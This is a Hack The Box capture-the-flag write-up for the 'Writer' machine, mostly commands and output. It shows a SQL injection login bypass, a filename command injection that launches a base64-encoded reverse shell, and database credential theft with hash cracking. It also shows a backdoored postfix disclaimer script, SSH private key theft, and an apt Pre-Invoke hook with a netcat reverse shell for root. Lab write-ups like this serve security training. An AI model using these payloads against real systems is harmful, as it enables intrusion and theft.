




Writer is a medium difficulty box but personally, I feel that this box is rather difficult to exploit, especially the privilege escalation process. 

<!--more-->

## HTB - Writer
**Box** : writer\
**IP Address** : 10.10.11.101\
**Operating System** : Linux

## Remarks
- This exploitation takes a really long time!!!!
- Read up on privilege escalation using SMTP email servers, espcially postfix
- Read up on exploitations regarding file uploads!

## Enumeration

As usual, let's just start off with running nmap on the services available on the IP address. There isn't anything interesting available from the output, just the typical port 22 and 80 used for SSH and web service. 

However, what is worth mentioning is that ```Samba smbd 4.6.2``` is running on ports 139 and 445, which points to possible SMTP services.

## Discovery

Before we carry on furthur, let's add ```writer.htb``` to our ```/etc/hosts``` file.

```
10.10.11.101    writer.htb
```

Next, we will try to enumerate the possible endponts on http://writer.htb using Gobuster. From the output, we dicsover an ```/adminstrative``` endpoint which points to a possible point of entry into the website's adminstrative interface.

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://writer.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://writer.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2021/09/11 13:46:22 Starting gobuster in directory enumeration mode
===============================================================
http://writer.htb/contact              (Status: 200) [Size: 4905]
http://writer.htb/about                (Status: 200) [Size: 3522]
http://writer.htb/static               (Status: 301) [Size: 309] [--> http://writer.htb/static/]
http://writer.htb/logout               (Status: 302) [Size: 208] [--> http://writer.htb/]       
http://writer.htb/dashboard            (Status: 302) [Size: 208] [--> http://writer.htb/]       
http://writer.htb/administrative       (Status: 200) [Size: 1443]                               
http://writer.htb/server-status        (Status: 403) [Size: 275]                                
                                                                                                
===============================================================
2021/09/11 14:06:47 Finished
===============================================================
```

Visiting the ```/adminstrative``` endpoint, we are presented with a login page that is vulnerable to SQL injection. The payload of ```admin'or 1=1 or ''='``` as the username will then redirect us to the ```/dashboard``` endpoint. 

Looking through all the endpoints, we discover a ```/dashboard/stories/<post id>``` endpoint that allows us to upload files. However, we also discover that we are only able to upload JPEG files. 



Capturing the file upload request in burp, we realize that there is no filtering of uploaded files. This presents the possibility of spawning a reverse shell using file uploads.

To do that, we will have to first create a base64-encoded reverse shell payload that is embedded in an image file. 

```
┌──(kali㉿kali)-[~/Desktop]
└─$ echo -n '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.7/3000 0>&1"' | base64
L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNy8zMDAwIDA+
JjEi
                                                                                                 
┌──(kali㉿kali)-[~/Desktop]
└─$ touch '1.jpg; `echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNy8zMDAwIDA+JjEi| base64 -d | bash`;'
```

Afterwards, we will upload the malicious image file and intercept the file upload request. We will then change the request body accordingly.


## Obtaining user flag

Now that we have obtained the reverse shell, we will now stabilize the shell. we also realize that we have only gained access to ```www-data``` and do not have sufficient privileges to read the user flag.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000             
listening on [any] 3000 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.101] 49678
bash: cannot set terminal process group (981): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@writer:/$ export TERM=xterm
export TERM=xterm
www-data@writer:/$ stty cols 132 rows 34
stty cols 132 rows 34
www-data@writer:/$ 
```

Let's first try to find out the users that can be logged into this terminal. We discover that ```john``` and ```kyle``` can both be authenticated.

```
www-data@writer:/$ cd home
cd home
www-data@writer:/home$ ls
ls
john  kyle
www-data@writer:/home$ 
```

After navigating around the terminal, we discover a ```maria.cnf```file inside ```/etc/mysql``` that contains credentials for us to access the database. 

```
www-data@writer:/home$ cd /etc/mysql
cd /etc/mysql
www-data@writer:/etc/mysql$ ls
ls
conf.d  debian-start  debian.cnf  mariadb.cnf  mariadb.conf.d  my.cnf  my.cnf.fallback
www-data@writer:/etc/mysql$ cat mariadb.cnf
cat mariadb.cnf
# The MariaDB configuration file
#
# The MariaDB/MySQL tools read configuration files in the following order:
# 1. "/etc/mysql/mariadb.cnf" (this file) to set global defaults,
# 2. "/etc/mysql/conf.d/*.cnf" to set global options.
# 3. "/etc/mysql/mariadb.conf.d/*.cnf" to set MariaDB-only options.
# 4. "~/.my.cnf" to set user-specific options.
#
# If the same option is defined multiple times, the last one will apply.
#
# One can use all long options that the program supports.
# Run program with --help to get a list of available options and with
# --print-defaults to see which it would actually understand and use.

#
# This group is read both both by the client and the server
# use it for options that affect everything
#
[client-server]

# Import all .cnf files from configuration directory
!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mariadb.conf.d/

[client]
database = dev
user = djangouser
password = DjangoSuperPassword
default-character-set = utf8
www-data@writer:/etc/mysql$ mysql -u djangouser -h localhost -p
mysql -u djangouser -h localhost -p
Enter password: DjangoSuperPassword
```

Now, we will login to ```mysql``` database and attempt to obtain the credentials for any of the users on this terminal. 

```
MariaDB [dev]> show tables;
show tables;
+----------------------------+
| Tables_in_dev              |
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
+----------------------------+
10 rows in set (0.000 sec)

MariaDB [dev]> select * from auth_user;
select * from auth_user;
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
| id | password                                                                                 | last_login | is_superuser | username | first_name | last_name | email           | is_staff | is_active | date_joined                |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
|  1 | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= | NULL       |            1 | kyle     |            |           | kyle@writer.htb |        1 |         1 | 2021-05-19 12:41:37.168368 |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
```

However, we are only able to obtain the hash of the password for ```kyle```. But, we would have to identify the hash type that we are looking at.

```
┌──(kali㉿kali)-[~]
└─$ hashcat -h | grep "PBKDF2-SHA256"
   9200 | Cisco-IOS $8$ (PBKDF2-SHA256)                    | Operating System
  10000 | Django (PBKDF2-SHA256)                           | Framework
```

Now that we have identified that the hash most likely belongs to a hash generated by the Django framework, we will now try to crack the hash using Hashcat.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -m 10000 hash.txt rockyou.txt  
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -m 10000 hash.txt rockyou.txt --show                                             3 ⚙
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio
```

All that is left for us to do is to SSH into ```kyle``` and obtain the user flag.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh kyle@10.10.11.101                                                                    3 ⚙
The authenticity of host '10.10.11.101 (10.10.11.101)' can't be established.
ECDSA key fingerprint is SHA256:GX5VjVDTWG6hUw9+T11QNDaoU0z5z9ENmryyyroNIBI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.101' (ECDSA) to the list of known hosts.
kyle@10.10.11.101's password: 
Last login: Fri Sep 17 16:56:56 2021 from 10.10.14.15
kyle@writer:~$ ls
user.txt
kyle@writer:~$ cat user.txt
<Redacted user flag>
kyle@writer:~$ 
```

## Obtaining the root flag

Let's first try our luck if there are any binaries that can be executed without any password, but with root privileges. It seems that luck is no longer on our side this time. 

```
kyle@writer:~$ sudo -l
[sudo] password for kyle: 
Sorry, user kyle may not run sudo on writer.
```

Next, let's just run a Linpeas script to identify possible privilege escalation vectors. From the output, it seems that there are installed mail applications (```postfix```), and the user ```kyle``` belongs to the ```filter``` group that seem to be able to write into the ```/etc/postfix/disclaimer``` file.





Apart from that, we were also able to find out the emails for ```kyle``` and ```root```

```
kyle@writer:~$ cd /etc/postfix && ls
disclaimer            dynamicmaps.cf    main.cf.proto  master.cf.proto  postfix-script
disclaimer_addresses  dynamicmaps.cf.d  makedefs.out   postfix-files    post-install
disclaimer.txt        main.cf           master.cf      postfix-files.d  sasl
kyle@writer:/etc/postfix$ cat disclaimer_addresses
root@writer.htb
kyle@writer.htb
```

Now, we will create a modified disclaimer file (saved in another directory) that will call a reverse shell command and spawn a reverse shell. 

```
#!/bin/sh
# Localize these.
INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail
bash -i &>/dev/tcp/10.10.16.7/4444 0>&1

# Get disclaimer addresses
DISCLAIMER_ADDRESSES=/etc/postfix/disclaimer_addresses

# Exit codes from <sysexits.h>
EX_TEMPFAIL=75
EX_UNAVAILABLE=69

# Clean up when done or when aborting.
trap "rm -f in.$$" 0 1 2 3 15

# Start processing.
cd $INSPECT_DIR || { echo $INSPECT_DIR does not exist; exit
$EX_TEMPFAIL; }

cat >in.$$ || { echo Cannot save mail to file; exit $EX_TEMPFAIL; }

# obtain From address
from_address=`grep -m 1 "From:" in.$$ | cut -d "<" -f 2 | cut -d ">" -f 1`

if [ `grep -wi ^${from_address}$ ${DISCLAIMER_ADDRESSES}` ]; then
  /usr/bin/altermime --input=in.$$ \
                   --disclaimer=/etc/postfix/disclaimer.txt \
                   --disclaimer-html=/etc/postfix/disclaimer.txt \
                   --xheader="X-Copyrighted-Material: Please visit http://www.company.com/privacy.htm" || \
                    { echo Message content rejected; exit $EX_UNAVAILABLE; }
fi

$SENDMAIL "$@" <in.$$

exit $?
```

Afterwards, we will write a python script that will send an SMTP message (Referenced from [here](https://book.hacktricks.xyz/pentesting/pentesting-smtp))

```
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

host = "127.0.0.1"
port = 25

# create message object instance
msg = MIMEMultipart()

# setup the parameters of the message
password = "" 
msg['From'] = "kyle@writer.htb"
msg['To'] = "kyle@writer.htb"
msg['Subject'] = "This is not a drill!"

# payload 
message = ("test message")

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host,port)

if server.noop()[0] != 250:
    print("[-]Connection Error")
    exit()

server.starttls()

# Uncomment if log-in with authencation
# server.login(msg['From'], password)

server.sendmail(msg['From'], msg['To'], msg.as_string())
server.quit()

print("[***]successfully sent email to %s:" % (msg['To']))
```

Now, all we have to do is to copy the modified disclaimer file to ```/etc/postfix/disclaimer``` and execute the script to obtain the reverse shell.
- Note: The reason why I decided to save the disclaimer file to somewhere else instead of modifying it directly on ```/etc/postfix/disclaimer``` was because I realized that my changes on ```/etc/postfix/disclaimer``` is overwritten every single time I execute the script. 

```
kyle@writer:~$ cp disclaimer /etc/postfix/disclaimer && python3 send.py
[*] Payload is generated : test message
[***]successfully sent email to kyle@writer.htb:
```

Now, we have obtained the reverse shell, but we realized that this is not a root shell. Instead, this is a shell for ```john```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.101] 50386
bash: cannot set terminal process group (1243409): Inappropriate ioctl for device
bash: no job control in this shell
john@writer:/var/spool/postfix$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<ix$ python3 -c 'import pty; pty.spawn("/bin/bash")'
john@writer:/var/spool/postfix$ export TERM=xterm
export TERM=xterm
john@writer:/var/spool/postfix$ stty cols 132 rows 34
stty cols 132 rows 34
john@writer:/var/spool/postfix$ id
id
uid=1001(john) gid=1001(john) groups=1001(john)
```

Before continuing furthur, let's first save the ```id_rsa``` file on our local machine so that we can SSH into ```john@10.10.11.101```

```
john@writer:/$ cd /home/john/.ssh
cd /home/john/.ssh
john@writer:/home/john/.ssh$ ls -la
ls -la
total 20
drwx------ 2 john john 4096 Jul  9 12:29 .
drwxr-xr-x 4 john john 4096 Aug  5 09:56 ..
-rw-r--r-- 1 john john  565 Jul  9 12:29 authorized_keys
-rw------- 1 john john 2602 Jul  9 12:29 id_rsa
-rw-r--r-- 1 john john  565 Jul  9 12:29 id_rsa.pub
john@writer:/home/john/.ssh$ cat id_rsa

┌──(kali㉿kali)-[~/Desktop]
└─$ nano id_rsa   
                                                                                                 
┌──(kali㉿kali)-[~/Desktop]
└─$ chmod 600 id_rsa 

──(kali㉿kali)-[~/Desktop]
└─$ ssh -i id_rsa john@10.10.11.101                                     
Last login: Wed Jul 28 09:19:58 2021 from 10.10.14.19
john@writer:~$ 
```

Next, we will execute the Linpeas script again to discover potential vectors for privilege escalation. We realize that ```john``` is part of the ```management``` group and ```management``` group is able to write into ```/etc/apt/apt.conf.d```. This gives us the idea of privilege escalation by APT (Refer to [here](hackingarticles.in/linux-for-pentester-apt-privilege-escalation/) for more info)

```
john@writer:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
```



From the postfix, files we also realize that the ```disclaimer``` program will be executed when the user is ```john```.

```
  flags=Rq user=john argv=/etc/postfix/disclaimer -f ${sender} -- ${recipient}
```

Now, we will create a payload in the ```/etc/apt/apt.conf.d``` directory to create a reverse shell that can escalate our privileges to root privileges. The payload created will then execute the reverse shell prior to any system updates that is running in the background. 

Since the ```/etc/apt/apt.conf.d``` has full permissions and the disclaimer program is scheduled to run in the background since the user is ```john```, the reverse shell payload will be invoked. 

```
john@writer:~$ cd /etc/apt/apt.conf.d
john@writer:/etc/apt/apt.conf.d$ echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.7 4444 >/tmp/f"};' > payload
```

Lastly, we will stabilize the root shell and obtain our flag.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.101] 45550
/bin/sh: 0: can't access tty; job control turned off
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@writer:/tmp# export TERM=xterm
export TERM=xterm
root@writer:/tmp# stty cols 132 rows 34
stty cols 132 rows 34
root@writer:/tmp# cd
cd
root@writer:~# ls
ls
root.txt  snap
root@writer:~# cat root.txt
cat root.txt
<Redacted system flag>
root@writer:~#
```